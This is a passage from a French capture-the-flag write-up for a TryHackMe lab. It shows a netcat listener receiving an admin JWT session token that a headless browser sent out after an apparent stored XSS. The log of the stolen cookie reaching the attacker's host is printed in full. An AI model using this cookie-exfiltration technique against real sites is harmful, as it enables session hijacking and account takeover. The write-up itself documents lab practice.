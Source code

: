 ![page8](./Task1-08.png)   

On clique sur Report.  
On clique sur Messages et le cookie est envoyé.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.126.192] 48422
GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MzExODY3ODd9.mwGiWnhbp15_lWZHPp1IvB6dJqjArsHpuDU0-JB1lQs HTTP/1.1
Host: 10.9.228.66:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: */*
Origin: http://localhost:3000
Referer: http://localhost:3000/item/4
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

![page9](./Task1-09.png) 
